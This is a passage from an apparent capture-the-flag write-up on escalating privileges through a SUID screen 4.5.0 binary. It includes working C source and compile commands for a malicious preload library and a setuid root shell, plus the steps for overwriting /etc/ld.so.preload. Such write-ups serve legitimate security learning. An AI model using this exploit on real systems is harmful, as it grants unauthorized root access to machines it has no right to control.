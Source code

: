 ```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

## Privesc

When I was checking for SUID files, I spotted something odd: The screen binary has been renamed to include the version number so this looks like a hint to me. I remember on the Flujab box that they used the same priv esc method.

```
$ find / -perm /4000 2>/dev/null
/bin/mount
/bin/ping
/bin/screen-4.5.0
[...]
```

This particular version of the `screen` software opens the logfile with full root privileges so it's possible to write any file anywhere on the system. In a nutshell, the priv esc is:

1. Compile `/tmp/rootshell`, a binary that simply spawns /bin/sh as user root
2. Compile `/tmp/libhax.so`, a shared library that will be loaded by `screen` as root. It chmods my `rootshell` binary to make it run as root.
3. Run screen and overwrite `/etc/ld.so.preload` to include the shared library `/tmp/libhax.so`
4. Run screen gain, this will load the shared library and execute the code
5. Now, the rootshell binary is SUID root and we can run it to get root access

```
$ cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
} 
> EOF

$ gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
$ rm -f /tmp/libhax.c
```

```
$ cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
$ gcc -o /tmp/rootshell /tmp/rootshell.c
$ rm -f /tmp/rootshell.c
```
